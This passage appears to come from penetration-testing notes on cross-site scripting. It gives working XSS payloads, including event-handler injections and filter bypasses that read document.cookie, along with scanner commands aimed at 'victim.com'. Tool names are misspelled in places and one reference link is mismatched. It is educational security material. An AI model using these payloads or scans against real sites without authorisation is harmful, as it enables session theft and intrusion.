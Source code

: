 ![XSS Example 2](XSS_Example1b.png)

- Analyse within Burp to see if there are any requests

There are also HTML DOM Events we can abuse such as the following:

- **onmouseover**: Execute a JavaScript when moving the mouse pointer onto an image
- **onfocus**: Execute a JavaScript when an input field gets focus

```html
<img onmouseover="alert(1)" src="smiley.gif" alt="Smiley">
<input type="text" onfocus="alert(1)">
```

There is an high chance that it there a control to avoid basic XSS, here are some bypass techniques:

```html
<!-- Different Syntax or Encoding -->
"><script >alert(document.cookie)</script >
```

```html
<!-- Bypassing Non-Recursive Filtering -->
<scr<script>ipt>alert(document.cookie)</script>
```

Here below are some automated tools to find XSS

- [XSScrapy](https://github.com/DanMcInerney/xsscrapy) is an XSS/SQLi spider
- [XXXsniper](https://github.com/gbrindisi/xsssniper) is an XSS discovery tool with mass scanning functionalities
- [XSSer](https://github.com/epsylon/xsser) is an automatic -framework- to detect, exploit and report XSS vulnerabilities in web-based applications.

```bash
# XXScrapy
# Give it a URL and it'll test every link it finds for cross-site scripting and some SQL injection vulnerabilities.
./xsscrapy.py -u http://victim.com

# XSSsniper
# Scanning a single url with GET params
./xsssniper.py -u "http://victim.com/index.php?page=test"
# Scanning a single url with POST params
./xsssniper.py -u "http://victim.com/index.php" --post --data=POST_DATA
# Mass scan an entire website (form included)
./xsssniper.py -u "http://victim.com" --crawl --forms
```

References:

- [WSTG-INPV-01 - Testing for Reflected Cross Site Scripting](https://owasp.org/www-project-web-security-testing-guide/stable/4-Web_Application_Security_Testing/01-Information_Gathering/06-Identify_Application_Entry_Points.html)
- [WSTG-INFO-07 - Map Execution Paths Through Application](https://owasp.org/www-project-web-security-testing-guide/stable/4-Web_Application_Security_Testing/01-Information_Gathering/07-Map_Execution_Paths_Through_Application.html)
